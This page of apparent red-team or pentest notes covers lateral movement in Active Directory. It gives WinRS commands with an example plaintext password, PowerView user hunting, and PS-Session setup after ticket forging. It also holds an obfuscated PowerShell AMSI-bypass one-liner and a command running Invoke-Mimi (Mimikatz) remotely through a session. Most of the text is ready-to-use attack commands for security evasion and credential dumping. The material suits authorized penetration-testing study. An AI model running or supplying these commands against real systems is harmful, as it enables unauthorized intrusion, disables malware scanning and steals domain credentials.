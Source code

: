 # Open other sessions

### **WINRS**

```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```

```powershell
winrs -r:$machine cmd
```

### **Other Sessions Opened**

```powerview
Find-DomainUserLocation
```

<figure><img src="../../../.gitbook/assets/Pasted image 20231018164427 (1).png" alt=""><figcaption></figcaption></figure>

Connect Using Win-rs

### **PS-SESSION**

[Forge a ticket](../../persistence/ticket-forging.md) and open the session

```powershell
$sess=New-PSSession dcorp-dc
```

Enter the session

```powershell
Enter-PSSession -Session $sess
```

## Execute PS1 in PS-Session

First open a PS-Session to the target machine

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString '<$password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<$Domain\User>", $passwd)
$session = New-PSSession -ComputerName us-mailmgmt -Credential $creds
```
{% endcode %}

Enter the session and bypass the AMSI

```powershell
Enter-PSSession $session
```

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(2).png" alt=""><figcaption></figcaption></figure>

Now launch Invoke-Mimi throught the session

{% code overflow="wrap" %}
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $session
```
{% endcode %}

Enter the session and launch the commands.
